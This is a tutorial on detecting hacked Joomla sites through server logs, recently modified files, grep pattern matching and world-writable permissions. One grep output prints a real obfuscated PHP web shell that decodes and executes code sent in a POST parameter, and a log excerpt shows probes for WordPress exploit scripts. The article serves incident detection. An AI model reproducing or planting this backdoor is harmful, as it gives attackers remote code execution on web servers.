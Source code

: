 ```yaml
---
description: How to find hacked Joomla files. How to analize your Joomla site to tell if it has been compromised or hacked.
---
```


## Overview

Like every popular Content Management System, there is always going to
be at risk of being attacked or hacked. This article explore some
methods to try to detect the integrity of your website.

Monitor your site regularly.

## Check web server logs

Check primarily for brute force attacks and attempts to upload
files. With Apache in Ubuntu that would tipically mean to analyze
`/var/log/apache2/access.log` and `/var/log/apache2/error.log`

For example, there is someone playing around one of my Joomla websites
trying to explode Wordpress vulnerabilities:

<pre class="shell">
<samp>
<span class="shell-prompt">/var/log/apache2/$</span> <kbd>grep POST access.log</kbd>
XXXXXXXX.com:80 193.XXX.XXX.XXX - - [26/Jan/2017:00:07:03 +0000] "POST /wp-content/themes/method/lib/scripts/dl-skin.php HTTP/1.1" 500 363 "-" "Mozilla/5.0 (Windows NT 6.1; rv:34.0) Gecko/20100101 Firefox/34.0"
XXXXXXXX.com:80 193.XXX.XXX.XXX - - [26/Jan/2017:00:07:14 +0000] "POST /wp-content/themes/modular/lib/scripts/dl-skin.php HTTP/1.1" 500 363 "-" "Mozilla/5.0 (Windows NT 6.1; rv:34.0) Gecko/20100101 Firefox/34.0"
XXXXXXXX.com:80 193.XXX.XXX.XXX - - [26/Jan/2017:00:07:25 +0000] "POST /wp-content/themes/myriad/lib/scripts/dl-skin.php HTTP/1.1" 500 363 "-" "Mozilla/5.0 (Windows NT 6.1; rv:34.0) Gecko/20100101 Firefox/34.0"
XXXXXXXX.com:80 193.XXX.XXX.XXX - - [26/Jan/2017:00:07:56 +0000] "POST /wp-content/themes/persuasion/lib/scripts/dl-skin.php HTTP/1.1" 500 363 "-" "Mozilla/5.0 (Windows NT 6.1; rv:34.0) Gecko/20100101 Firefox/34.0"
</samp>
</pre>

## Detect modified PHP files

You can look for PHP files that were modified recently, or after some
date you are sure didn't perform anything to the source code. 

That would show new possibly uploaded scripts or modified files with
injected code in them.

### Find files modified recently

To find recently modified files: <kbd>find /path/to/dir -type f -mtime -7 -ls</kbd>.
The `-mtime` parameter detects when file's data was last modified
*n*24* hours ago, in that case we analyze the previous 7 days.

<pre class="shell">
<samp>
<span class="shell-prompt">$</span> <kbd>find . -type f -mtime -7 -ls</kbd>
</samp>
</pre>

### Find files modified after a specific date

List files in given directory modified after given date <kbd> find
/path/to/dir -newermt "yyyy-mm-dd"</kbd>.

> -newerXY reference
>               Compares the timestamp of the current file with reference.  The reference argument is normally the name  of  a  file
>               (and  one  of its timestamps is used for the comparison) but it may also be a string describing an absolute time.  X
>               and Y are placeholders for other letters, and these letters select which time belonging to how reference is used for
>               the comparison.
> 
>               a   The access time of the file reference
>               B   The birth time of the file reference
>               c   The inode status change time of reference
>               m   The modification time of the file reference
>               t   reference is interpreted directly as a time
> 
> <footer class="blockquote-footer"> <cite>Find man page</cite></footer>
{: class="blockquote"}

In this example we look for files modified with the current directory
as the base directory and modified after "2016-12-01".

<pre class="shell">
<samp>
<span class="shell-prompt">$</span> <kbd>find . -newermt "2017-01-25" -ls</kbd>
1089538    4 drwxr-xr-x   2 marcanuy www-data     4096 Jan 25 04:13 ./website/logs
</samp>
</pre>

### Finding hacked files with pattern matching

Most of the time injected code will be obfuscated, making it harder to
look for obvious patterns, but we can try some alternatives though.

This code would be tipically inserted as the first line of the PHP
file, starting with a variable, so we can look for that pattern, first
line starting with `<?php $`:

<pre class="shell">
<samp>
<span class="shell-prompt">$</span> <kbd>grep -m 1 -r '^<?php \$' .</kbd>
./website/components/com_users/views/profile/tmpl/default_params.php:<?php $fields = $this->form->getFieldset('params'); ?>
./website/administrator/cache/com_ajax3j/9411v11.php:<?php $coi=chr(97).chr(115)."\x73".chr(101)."\x72"."\x74";$zioj=chr(98).chr
(97)."\x73"."\x65"."\x36".chr(52)."\x5f"."\x64".chr(101)."c"."\x6f".chr(100).chr(101);$jd=chr(115)."\x74".chr(114)."\x5f"."r".chr(111)
."\x74"."1"."3";@$coi(@$zioj(@$jd($_POST[chr(100).chr(97)."t".chr(97)])));die(); ?>
</samp>
</pre>

First line of the output looks fine, but the second line looks a bit
more than suspicious code, we can decode it and understand what it is
doing before removing it.

## Files with wrong permissions

Check out for writable upload directories. The `find` command can be used to scan for files and folder with
permission 777.

<pre class="shell">
<span class="shell-prompt">$</span> <kbd>find . \(-type f -o -type d\) -perm 0777 -print </kbd>
</pre>

> -perm mode
>               File's  permission  bits  are  exactly  mode (octal or sym‐
>               bolic).  Since an exact match is required, if you  want  to
>               use this form for symbolic modes, you may have to specify a
>               rather complex mode string.  For example `-perm  g=w'  will
>               only  match  files  which have mode 0020 (that is, ones for
>               which group write permission is the only  permission  set).
>               It  is more likely that you will want to use the `/' or `-'
>               forms, for example `-perm -g=w',  which  matches  any  file
>               with  group write permission.  See the EXAMPLES section for
>               some illustrative examples.
> 
> <footer class="blockquote-footer"> <cite>Find man page</cite></footer>
{: class="blockquote"}


Then we can modify it a bit to scan through all the 777 files on the
server and show ones with `.php` to look for uploaded scripts:

<pre class="shell">
<span class="shell-prompt">$</span> <kbd>find . -name "*php" -type f -perm 777</kbd>
</pre>

## Conclusion

A lot of people recommends to install a clean backup after being
hacked, this approach will fail sooner or later because you need to
know what failed to prevent happening again.

This article covers some basic strategies for identifying compromised
files, attacks are constant with varying methods so it is important to
know commands and strategies to recover our sites and keep them safe.

## References

- <http://www.gregfreeman.io/2013/how-to-tell-if-your-php-site-has-been-compromised/>
- <https://www.bluebridgedev.com/hacked-joomla-files>
- <https://www.joomshaper.com/blog/my-joomla-site-was-hacked-what-to-do>
- <https://www.google.com/transparencyreport/safebrowsing/diagnostic/index.html>
- The Joomla Hacking Compendium <https://www.exploit-db.com/papers/15780/>
